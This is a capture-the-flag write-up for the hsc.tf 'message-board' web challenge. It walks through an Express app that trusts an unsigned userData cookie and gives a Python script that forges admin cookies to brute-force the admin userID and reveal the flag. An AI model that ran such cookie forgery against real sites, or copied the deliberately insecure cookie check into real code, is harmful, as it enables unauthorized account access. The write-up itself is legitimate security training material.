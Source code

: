# Challenge Name: message-board

![date](https://img.shields.io/badge/date-15.06.2021-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![web category](https://img.shields.io/badge/category-Web-blueviolet.svg)   
![value](https://img.shields.io/badge/value-305-blue.svg)  


## Description

Your employer, LameCompany, has lots of gossip on its company message board: message-board.hsc.tf. You, Kupatergent, are able to access some of the tea, but not all of it! Unsatisfied, you figure that the admin user must have access to ALL of the tea. Your goal is to find the tea you've been missing out on.

Your login credentials: username: kupatergent password: gandal

Server code is attached (slightly modified).

[message-board-master.zip](message-board-master.zip)

## Detailed solution

Start by opening the challenge link https://message-board.hsc.tf/  

![image](https://user-images.githubusercontent.com/72421091/122657103-4cc15d00-d158-11eb-91f5-efc9767c5bf3.png)

We have a login page https://message-board.hsc.tf/login  

![image](https://user-images.githubusercontent.com/72421091/122657152-c8230e80-d158-11eb-9df6-182658900f84.png)

It's a normal login form that use POST request  

```html
    <form action="/login" method="POST">
        <div class="mb-3">
            <label class="form-label" for="username">Username</label>
            <input class="form-control" type="text" name="username" id="">
        </div>
        <div class="mb-3">
            <label class="form-label" for="password">Password</label>
            <input class="form-control" type="password" name="password" id="">
        </div>
        <button class="btn btn-primary" type="submit">Login</button>
        <p class="form-text">Gossip abounds</p>
    </form>
```

Now let's check the source code [message-board-master.zip](message-board-master.zip) 

It's a Express-NodeJS web application let's see the app.js 

```js
const express = require("express")
const cookieParser = require("cookie-parser")
const ejs = require("ejs")
require("dotenv").config()

const app = express()
app.use(express.urlencoded({ extended: true }))
app.use(cookieParser())
app.set("view engine", "ejs")
app.use(express.static("public"))

const users = [
    {
        userID: "972",
        username: "kupatergent",
        password: "gandal"
    },
    {
        userID: "***",
        username: "admin"
    }
]

app.get("/", (req, res) => {
    const admin = users.find(u => u.username === "admin")
    if(req.cookies && req.cookies.userData && req.cookies.userData.userID) {
        const {userID, username} = req.cookies.userData
        if(req.cookies.userData.userID === admin.userID) res.render("home.ejs", {username: username, flag: process.env.FLAG})
        else res.render("home.ejs", {username: username, flag: "no flag for you"})
    } else {
        res.render("unauth.ejs")
    }
})

app.route("/login")
.get((req, res) => {
    if(req.cookies.userData && req.cookies.userData.userID) {
        res.redirect("/")
    } else {
        res.render("login.ejs", {err: false})
    }
})
.post((req, res)=> {
    const request = {
        username: req.body.username,
        password: req.body.password
    }
    const user = users.find(u => (u.username === request.username && u.password === request.password))
    if(user) {
        res.cookie("userData", {userID: user.userID, username: user.username})
        res.redirect("/")
    } else {
        res.render("login", {err: true}) // didn't work!
    }
})

app.get("/logout", (req, res) => {
    res.clearCookie("userData")
    res.redirect("/login")
}) 

app.listen(3000, (err) => {
    if (err) console.log(err);
    else console.log("connected at 3000 :)");
})
```  

The login POST request test if the usersname and password exist in the ``` const users ``` 

As we can users has **kupatergent** and admin, the password and userID for the admin has been edited for the challenge  

So we have only the login ```kupatergent:gandal``` 

![image](https://user-images.githubusercontent.com/72421091/122657442-7c259900-d15b-11eb-802a-4342bb8975ef.png)

After login in using ```kupatergent:gandal``` we can the message no flag for you 

```js
app.get("/", (req, res) => {
    const admin = users.find(u => u.username === "admin")
    if(req.cookies && req.cookies.userData && req.cookies.userData.userID) {
        const {userID, username} = req.cookies.userData
        if(req.cookies.userData.userID === admin.userID) res.render("home.ejs", {username: username, flag: process.env.FLAG})
        else res.render("home.ejs", {username: username, flag: "no flag for you"})
    } else {
        res.render("unauth.ejs")
    }
})
``` 
As we can see if we acces the home page a test check our cookie and extract the userID and username and compare them to username and userID of the admin 

If our cookie has the admin username and userID we gonna see the flag 

A cookie has been generated after login in ```kupatergent:gandal``` we can see it in dev tools 

```
userData=j%3A%7B%22userID%22%3A%22972%22%2C%22username%22%3A%22kupatergent%22%7D
``` 

It's url encoded let's decode it 
  
```
j:{"userID":"972","username":"kupatergent"}
```  

As we can the cookie has the userID and the username. So to be able to get the flag we need to craft a cookie with 

j:{"userID":"X","username":"admin"} as X is admin userID 

So we need to bruteforce the userID until we got a page with flag 

```python
import requests
from requests.structures import CaseInsensitiveDict

url = "https://message-board.hsc.tf/"

headers = CaseInsensitiveDict()

for i in range(0, 999):
    print("userID = " + str(i) ) 
    headers["Cookie"] = "userData=j:%7B%22userID%22:%22" + str(i)+ "%22,%22username%22:%22admin%22%7D"
    resp = requests.get(url, headers=headers)
    page = resp.content.decode("utf-8")
    if page.find("no flag for you") != 1429:
        print(page)
        break
``` 

![image](https://user-images.githubusercontent.com/72421091/122657971-20114380-d160-11eb-882d-d16ef7934b58.png)


We got admin userID which is 768 and the flag 


## Flag

```
flag{y4m_y4m_c00k13s}
```
